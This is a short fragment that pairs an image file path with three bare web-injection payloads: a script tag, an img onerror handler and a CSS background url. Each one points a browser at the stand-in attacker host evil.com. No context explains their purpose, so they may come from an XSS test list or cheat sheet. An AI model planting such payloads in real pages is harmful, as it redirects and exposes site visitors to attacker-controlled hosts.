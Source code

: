 <script>location=`https://evil.com`</script>
<img src=x onerror=location=`//evil.com`>
body { background: url(//evil.com); }
